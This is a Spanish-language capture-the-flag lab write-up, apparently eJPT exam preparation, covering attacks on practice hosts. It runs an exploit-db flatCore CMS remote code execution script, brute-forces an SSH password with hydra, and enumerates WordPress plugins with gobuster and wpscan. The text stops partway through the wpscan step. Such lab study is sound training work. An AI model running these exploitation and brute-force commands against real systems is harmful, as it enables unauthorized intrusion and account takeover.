

repository: scarlgyx/scarlgyx-cybersecurity · page: certs/ejpt/host-network-pentest/06-exploitation-ctf-1/index.html · generator: mkdocs

# Exploitation CTF 1

Two Linux machines are accessible at **target1.ine.local** and **target2.ine.local**
/usr/share/nmap/nselib/data/wp-plugins.lst
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

- FLAG1
Identify and exploit the vulnerable web application running on target1.ine.local and retrieve the flag from the root directory. The credentials admin:password1 may be useful

![](../../../assets/img/Pasted_image_20260918122450.png)

Consultamos el puerto 80

![](../../../assets/img/Pasted_image_20260918122655.png)

Podemos registrarnos con las credenciales que nos dan admin:password1

Encontramos también directorios no indexados en */robots.txt*

![](../../../assets/img/Pasted_image_20260918124850.png)

Accedemos a un panel de flatCore CMS

![](../../../assets/img/Pasted_image_20260918122733.png)

Vemos un flatCore CMS

Buscaremos exploits en searchsploit

![](../../../assets/img/Pasted_image_20260918125224.png)

Usaremos el **FlatCore CMS 2.0.7 Remote Code Execution**
```bash
python3 50262.py http://target1.ine.local admin password1
```

![](../../../assets/img/Pasted_image_20260918125458.png)

Vemos la primera flag listando el directorio / como nos dice en el enunciado

![](../../../assets/img/Pasted_image_20260918132306.png)

- FLAG2

Encontramos un usuario **iamaweakuser**

![](../../../assets/img/Pasted_image_20260918132805.png)

Intentaremos bruteforcear la contraseña con el diccionario que nos dan
```bash
hydra -l iamaweakuser -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://target1.ine.local -V -f
```

![](../../../assets/img/Pasted_image_20260918132935.png)

iamaweakuser:angel

Nos conectamos por ssh
```bash
ssh iamaweakuser@target1.ine.local
```

![](../../../assets/img/Pasted_image_20260918133058.png)

- FLAG3

![](../../../assets/img/Pasted_image_20260918133828.png)

Vemos un wordpress

![](../../../assets/img/Pasted_image_20260918133209.png)

Vemos un usuario **admin**

Buscaremos el plugin vulnerable del que habla el enunciado
```bash
gobuster dir -u http://target2.ine.local -w /usr/share/nmap/nselib/data/wp-plugins.lst -t 200 -x php,html,txt,py,xml
```

![](../../../assets/img/Pasted_image_20260918134837.png)

No vemos nada a priori

Lanzamos un wpscan con el diccionario de plugins que nos han pasado
```bash
wpscan --url http://target2.ine.local --plugins-list /usr/share/nmap/nselib/data/wp-plugins.lst --plugins-detection aggressive
```
